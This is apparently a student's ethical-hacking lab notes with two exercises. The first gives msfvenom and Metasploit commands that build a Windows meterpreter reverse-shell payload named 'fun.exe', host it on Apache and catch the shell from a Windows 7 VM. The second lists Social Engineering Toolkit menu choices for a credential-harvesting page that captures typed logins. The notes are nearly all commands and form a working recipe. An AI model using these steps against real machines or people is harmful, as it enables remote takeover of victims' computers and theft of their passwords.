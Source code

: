 # etht





# exp 6 - Compromise windiws using Metasploit
```
ifconfig
(inet is your kali linux ip)
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your kai ip) -f exe > fun.exe
sudo cp fun.exe /var/www/html
sudo systemctl start apache2
sudo systemctl status apache2
(ctrl C to exit)
msfconsole
help
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
(open windows 7 vm)

```
# exp 7 - Creating a Backdoor with Social Engineering Toolkit
```
sudo setoolkit
(give password)
1 (enter)
2 (enter)
3 (enter)
1 (enter)
(enter)
2 (enter)

(go chrome incog and give that ip)
(give random id pass)
(go kali and see the id pass in terminal)
```
